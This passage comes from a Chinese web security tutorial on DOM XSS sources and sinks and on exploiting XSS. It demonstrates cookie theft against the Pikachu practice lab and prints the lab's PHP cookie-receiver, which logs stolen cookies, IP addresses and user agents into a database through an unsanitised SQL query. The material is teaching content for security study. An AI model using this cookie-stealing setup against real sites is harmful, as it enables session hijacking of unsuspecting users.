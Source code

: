 网上曾有人整理了一份关于 DOM XSS 的数据污染源（Source，即用户输入数据）和漏洞触发点（Sink）的列表（虽然不够全面，但可以作为参考），如下图所示：  
![Drawing 14.png](https://s0.lgstatic.com/i/image2/M01/03/7A/Cip5yF_cOp-Acv-zAANwGCdez2k054.png)

图 15：DOM XSS Sources & Sinks

若数据从 Source 传到 Sink 过程中，未做任何过滤，就有可能存在 DOM XSS。这个思路也常作为动静态检测 DOM XSS 的重要思路，具体会在下一讲中介绍。

### 攻击 XSS 漏洞

这里开始我想给你介绍一些关于 XSS 漏洞利用的方法，避免你停留在 XSS 只能弹框的思想层面。

针对 XSS 漏洞最为常见的两种攻击方式就是窃取 Cookie 劫持他人的会话，以及前面介绍过的蠕虫攻击。因此，这里会重点介绍这两者的相关技术，同时也涉及一些其他的攻击思路，最后会引出一些自动化利用工具的使用。

#### 窃取 Cookie

我们首先来看“窃取 Cookie”。

Cookie 是由服务器提供的存储在客户端的数据，允许 JavaScript 访问，常用于识别用户身份和保存会话等功能。如果 Web 应用程序存在 XSS 漏洞，那么攻击者通过注入恶意 JavaScript 脚本就可以窃取到 Cookie，进而以用户身份执行恶意操作。

通过 document.cookie 就可以访问到 Cookie。以百度网站为例，在检查工具中的 Console 标签页输入 document.cookie 就可以看到当前百度域名下的 Cookie 值。

![Drawing 15.png](https://s0.lgstatic.com/i/image2/M01/03/7A/Cip5yF_cOpiAMrRcAACz4ZPfiHE961.png)

图 16：百度 Cookie

当一个网站存在 XSS 时，我们就可以通过执行 document.cookie 获取当前受害者的 cookie，前提是要先诱使受害者访问特定的 URL。

以 Pikachu 中的反射型 XSS(Get) 题目为例，其触发链接为：

访问后的效果：

![Drawing 16.png](https://s0.lgstatic.com/i/image2/M01/03/7A/Cip5yF_cOraARaEHAACAgMxORjM038.png)

图 17：Pikachu 中的反射型 XSS(Get) 利用

我们试试看能否读取 cookie：

可以访问到 cookie：  
![图片10.png](https://s0.lgstatic.com/i/image2/M01/04/3F/CgpVE1_r7PeAeYKNAAKRGDzBTuE416.png)

图 18：成功通过 JS 读取 Cookie

接下来，我们就可以在自己控制的服务器写个接收 cookie 的接口，比如 cookie.php。刚好 Pikachu 靶场自带这样的功能，我以它为例，并加了关键代码的注释：

```
<?php
include_once '../inc/config.inc.php';
include_once '../inc/mysql.inc.php';
$link=connect();  
if(isset($_GET['cookie'])){  
    $time=date('Y-m-d g:i:s');
    $ipaddress=getenv ('REMOTE_ADDR');
    $cookie=$_GET['cookie'];
    $referer=$_SERVER['HTTP_REFERER'];
    $useragent=$_SERVER['HTTP_USER_AGENT'];
    $query="insert cookies(time,ipaddress,cookie,referer,useragent) 
    values('$time','$ipaddress','$cookie','$referer','$useragent')";
    $result=mysqli_query($link, $query); 
}
header("Location:http://192.168.1.4/pikachu/index.php");
?>
```
